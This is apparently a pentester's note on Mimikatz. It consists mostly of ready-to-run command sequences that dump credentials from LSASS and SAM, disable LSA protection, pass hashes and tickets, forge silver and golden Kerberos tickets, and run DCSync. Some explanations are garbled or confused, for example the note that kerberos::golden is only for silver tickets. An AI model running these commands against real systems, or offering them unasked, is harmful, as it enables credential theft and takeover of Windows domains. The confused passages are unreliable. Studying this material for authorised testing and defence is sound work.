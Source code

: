 # Mimikatz
Used in Post Privilege Esculation in maintaining [[Persistence]] through credential harvesting and [[Active-Directory-Lateral-Movement]]. Mimikatz is used to dump credentials:
- From windows protect memory (LSASS) and activity directory domain controller database
- Kerberos tickets
	- For all users
	- For current users
- Credential Injection
- Generate Silver/Golden tickets
	- [[Pass-The-Hash]]
	- [[Pass-The-Ticket]]
- And more

In 2012, Microsoft implemented an LSA protection, to keep LSASS from being accessed to extract credentials from memory. [[AD-Credential-Harvesting]]
`reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa 0`

```powershell
privilege::debug
sekurlsa::logonpasswords
# ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
# Means LSA protection:
!+ # mimidrv.sys driver disables LSA protection.
!processprotect /process:lsass.exe /remove
```


```powershell
privilege::debug # enables the _SeDebugPrivilge_ access right
token::elevate # elevate the security token Administrator -> SYSTEM
!+ # LSA protection bypass!
lsadump::lsa /patch
lsadump::sam
sekurlsa::logonPasswords
```

### Extracting NTLM hashes from local SAM

```powershell
privilege::debug
token::elevate
!+ # LSA protection bypass!
lsadump::lsa /patch
lsadump::sam # Dump SAM database
```

### Extracting NTLM hashes from LSASS memory

```powershell
privilege::debug
token::elevate
!+ # LSA protection bypass!
sekurlsa::msv
```
These hashes can be used to perform [[Pass-The-Hash]] attacks by using `mimikatz` to inject an access token for the vicitim user on any command!
```powershell
token::revert
sekurlsa::pth /user:<username> /domain:<domain-name> /ntlm:<ntlm hash> /run:"<cmds goes here>"
```

## Kerberos Attacks
Used in [[Attacking-Kerberos]] see the detailed mechanics of Kerberos and [[Active-Directory-Kerberos-Authenication-Defined]]. It is credential base so understanding [[Active-Directory-Authentication]] in part for [[Active-Directory-Privilege-Escalation]] and [[Active-Directory-Lateral-Movement]] as it is capable of command execution.

Sometimes extraction of Kerberos tickets and sessions keys from LSASS memory with Mimikatz, requiring also SYSTEM privileges:
```powershell
privilege::debug
!+ # LSA protection bypass!
sekurlsa::tickets /export
```
Extract a desired ticket and inject the tickets into the current session, which doesn't require administrator privileges:
```powershell
kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-$DOMAIN.kirbi
```
Use `klist` to list Kerberos tickets.

### Kerberos Tickets
```powershell
kerberos::list /export
```

### Overpass the Hash Attacks
```powershell
sekurlsa::logonpasswords # Or another NTLM obtaining method
sekurlsa::pth /user:$admin /domain:$domain.com /ntlm:$NThash /run:Powershell.exe
```

### Silver Ticket Attacks
Don't be confused `kerberos::golden` is for Silver Ticket Attacks, see Golden Ticket Attacks. Requires:# Username, Domainame, SID of Domain defined by all except the ultimate `-0000`, Service to target, Service type(eg. HTTP), password hahsh of the Service Account. Creating a service ticket for the SPN HTTP/WebServer.Domain.com with this technique from perspective of application the current user will be built-in local administrator and Domain Admin group member.
```powershell
kerberos::purge
kerberos::list

kerberos::golden /user:$user /domain:$domain.com /sid:$SID-minus-exception /target:$TargetServer.$domain.com /service:$servicetype /rc4:$passwordhash-of-spn /ptt # /ptt means injected directly into memory
```

### Golden Ticket Attacks 
Don't be confused `kerberos::golden` is for Silver Ticket Attacks
```powershell
privilege::debug
!+ # LSA protection bypass!
lsadump::lsa /inject /name:krbtgt
```

With Domain Admin group access:
```powershell
privilege::debug
!+ # LSA protection bypass!
lsadump::lsa /patch
# Look for krbtgt
```

Creating the golden ticket and injecting it into memory does not require any administrative privileges, and can even be performed from a computer that is not joined to the domain. 
Provide values for: `kerberos::golden /user: /domain: /sid: /krbtgt: /id`,
like: `kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-SID /krbtgt:HASH /id:ID`, then open command prompt with elevated privileges `misc::cmd`.

```powershell 
kerberos::purge # Removed cached tickets
kerberos::golden /user:hacker /domain:$domainname.com /sid:$sid /krbtgt:$krbtgt-hash /ptt 
misc::cmd
```

Mimikatz provides two sets of default values when using the golden ticket option:
1. User IP - default set: 500, RID of builtin Administrator
2. Group IP - Domain Admins group

### DCSync Attacks
Visit [[Active-Directory-Persistence]] for details.

```powershell
!+ # LSA protection bypass!
lsadump::dcsync /user:Administrator
```

## Credential Manager

```powershell
privilege::debug
# ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
# Means LSA protection:
!+ # mimidrv.sys driver disables LSA protection.
!processprotect /process:lsass.exe /remove
sekurlsa::credman
```